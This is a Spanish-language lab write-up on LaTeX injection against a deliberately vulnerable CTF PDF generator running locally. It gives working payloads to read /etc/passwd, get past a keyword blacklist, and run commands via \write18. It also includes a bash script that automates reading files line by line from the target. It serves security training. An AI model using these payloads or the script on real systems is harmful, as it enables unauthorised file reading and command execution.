 ```yaml
---
title: "[Lab] Inyecciones LaTeX"
date: 2023-12-25
categories: [OWASPTop10]
tags: [owasptop10, hacking, latex]
---
```





# Inyecciones LaTeX

### Más info:

- Links
    
    PayloadsAllTheThings - (”[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection)”)
    
    Salmonsec - (”[https://salmonsec.com/cheatsheets/exploitation/latex_injection](https://salmonsec.com/cheatsheets/exploitation/latex_injection)”)
    
    0daywork - (”[https://0day.work/hacking-with-latex/](https://0day.work/hacking-with-latex/)”)
    

## Requerimientos
Laboratorio LaTeX injection: [https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code](https://github.com/internetwache/Internetwache-CTF-2016/tree/master/tasks/web90/code)

```bash
apt install texlive-full -y
apt install zathura latexmk rubber -y
apt install poppler-utils

xdg-mime query default application/pdf
xdg-mime default zathura.desktop application/pdf

service apache2 start
cd /var/www/html
svn checkout https://github.com/internetwache/Internetwache-CTF-2016/trunk/tasks/web90/code
cp code/* .
rm -r code
mv config.php.sample config.php
chown www-data:www-data -R *
```

Una vez finalizado, verificar el servidor web en el localhost.

## Pruebas

La página web se ve de la siguiente forma:

![Untitled](../assets/OWASP-TOP-10/Inyecciones LaTeX/Untitled.png)

Esta página sirve para generar documentos .pdf de forma dinámica con base al texto que se le ingresa.

![Untitled](../assets/OWASP-TOP-10/Inyecciones LaTeX/Untitled 1.png)

Los documentos “.pdf” los almacena en la carpeta pdf.

## Explotación

Leer archivos:

```bash
\input{/etc/passwd}
```

En este caso, este payload no funcionará ya que la palabra input e include está blacklisteada en el código

![Untitled](../assets/OWASP-TOP-10/Inyecciones LaTeX/Untitled 2.png)

Para intentar burlar esta restricción se podrían separar las palabras y luego unirlas:

```bash
# Por ejemplo, "hacking" es la palabra prohibida por lo 
# que se dividirá en dos para luego unirla

\def\first{hack}
\def\second{ing}
\first\second

# El resultado será la palabra "hacking"
```

Leer una única línea:

```bash
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Mostrar varias líneas:

```bash
\newread\file
\openin\file=/etc/passwd
\read\file to\lineA
\read\file to\lineB
\text{\lineA\lineB}
\closein\file
```

Es posible que al leer archivos de errores debido a caracteres especiales que se encuentran en el contenido de este. En estos casos, puede ser útil convertir el contenido del archivo a base64 y decodificarlo localmente:

```bash
#~~~~~~~~~~~~~#
\immediate\write18{cat /etc/passwd | base64}
\input{/etc/passwd}
```

Comando pdflatex con “--shell-escape**":**

En este caso, la web utiliza “—shell-escape” la cual no es conveniente usar ya que permite el uso de “\write18“ para ejecutar comandos

Ejecutar comandos:

```bash
# Al no especificarle un output, es posible que el 
# resultado del comando se muestre en el error que 
# devuelve la página web

\immediate\write18{<comando>}
```

![Untitled](../assets/OWASP-TOP-10/Inyecciones LaTeX/Untitled 3.png)

Otra alternativa es redirigir el output del comando a un archivo y luego leerlo

```bash
\immediate\write18{id > output}

\newread\file
\openin\file=output
\read\file to\line
\text{\line}
\closein\file
```

También se podría leer el archivo con el output del comando directamente si se tiene acceso a él desde la web.

## Script en Bash

Este script sirve para mostrar todas las líneas de un archivo deseado de la máquina víctima por medio de inyecciones LaTeX:

- Script
    
    ```bash
    #!/bin/bash
    
    # Variables globales
    declare -r main_url="http://localhost/ajax.php"
    filename=$1
    
    if [ $1 ]; then
    	read_file_to_line="%0A\read\file%20to\line"
    	
    	for i in $(seq 1 100); do
    		file_to_download=$(curl -s -X POST $main_url -H "Content-Type: application/x-www-form-urlencoded; charset=UTF-8" -d "content=\newread\file%0A\openin\file=$filename$read_file_to_line%0A\text{\line}%0A\closein\file&template=blank" | grep "Download:" | awk 'NF{print $NF}')
    		
    		if [ $file_to_download ]; then
    			wget $file_to_download &>/dev/null
    			file_to_convert=$(echo $file_to_download | awk '{print $5}' FS="/")
    			pdftotext $file_to_convert
    			file_to_read=$(echo $file_to_convert | sed 's/\.pdf/\.txt/')
    			rm $file_to_convert
    			cat $file_to_read | head -n 1
    			rm $file_to_read
    			read_file_to_line+="%0A\read\file%20to\line"
    		else
    			read_file_to_line+="%0A\read\file%20to\line"
    		fi
    	done
    else
    	echo -e "\n\n[!] Uso: $0 /etc/passwd\n\n"
    fi
    ```
    

La inyección que se utilizará es la siguiente:

```bash
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

Primero se interceptará la petición de esta inyección con Burpsuite:

![Untitled](../assets/OWASP-TOP-10/Inyecciones LaTeX/Untitled 4.png)

La petición estará urlencodeada por lo que se urldecodeo con “ctrl + shift + u”.

Ahora urlencodeara la petición para que esté en un formato adecuado para el script; los saltos de línea serán representados con “%0A” y los espacios con “%20”:

![Untitled](../assets/OWASP-TOP-10/Inyecciones LaTeX/Untitled 5.png)

```bash
content=\newread\file%0A\openin\file=/etc/passwd%0A\read\file%20to\line%0A\text{\line}%0A\closein\file&template=blank
```

